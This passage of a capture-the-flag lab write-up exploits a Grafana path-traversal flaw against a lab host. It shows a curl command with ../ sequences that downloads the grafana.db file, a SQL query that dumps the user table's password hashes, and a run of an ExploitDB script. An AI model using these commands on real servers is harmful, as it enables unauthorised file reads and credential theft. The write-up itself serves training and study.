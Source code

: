 ```bash
curl --path-as-is http://10.129.141.120:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db --output grafana.db
```

After downloading the database file, `sqlitebrowser` is used to read its contents.

```bash
sqlitebrowser grafana.db
```

![alt text](images/image-8.png)

Inside the database the `user` table is found, which contains the users and their passwords, emails e.t.c. of the Grafana instance. We can execute an SQL query to retrieve the users and their passwords.

```sql
SELECT * FROM user;
```

![alt text](images/image-9.png)

The query reveals only the `admin` and `boris` users, along with their passwords. The passwords are stored in a hashed and salted format. Though it's interesting the fact that entering `admin` on the "Forgot Password" form returns a user not found message but `root` is accepted and "sends an email".

#### Automated Exploitation

Downloading the Python script from [ExploitDB](https://www.exploit-db.com/exploits/50581) and executing it will automatically exploit the vulnerability and read the requested file from the server.

```bash
python3 50581.py -H http://10.129.141.120
```
